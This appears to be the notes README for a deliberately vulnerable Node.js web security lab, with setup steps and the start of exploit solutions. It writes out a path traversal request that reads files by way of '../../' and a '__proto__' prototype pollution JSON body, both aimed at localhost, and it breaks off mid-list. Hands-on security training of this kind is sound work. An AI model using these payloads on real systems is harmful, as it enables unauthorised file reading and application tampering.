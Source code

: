 # Web Security Lab - Notes

# Setup

1. Install Node.js.
2. `cd` into the `src` folder, and run `npm install`.
3. Run `node app.js`.
4. Go to `http://localhost:80` in your browser.

Alternatively, you can use Docker:

    docker-compose up -d
    open http://127.0.0.1:8083/

# Experiments

These challenges have three vulnerabilities: OS command injection, prototype pollution and path traversal. Your task is to find out what you can do with these vulnerabilities.


# Tasks 1-4:
To make the following requests, I build HTTP Requests using Powershell's Invoke-WebRequest and its associated 

1. Path Traversal Exploit:

   ```PowerShell
   $postParams = @{id="../../README.md"}
   Invoke-WebRequest -Uri http://localhost:80/img -Method GET -Body $postParams
   ```
   This example specifically hits this README, but you can use this to access further files on the user's system.

2. Prototype Pollution Exploit:

 ```
 POST: http://localhost/edit_note
 
 Body, JSON Format:
 {
		"id": "__proto__",
		"author": "{}",
		"raw": "{}"
}
 ```

3. 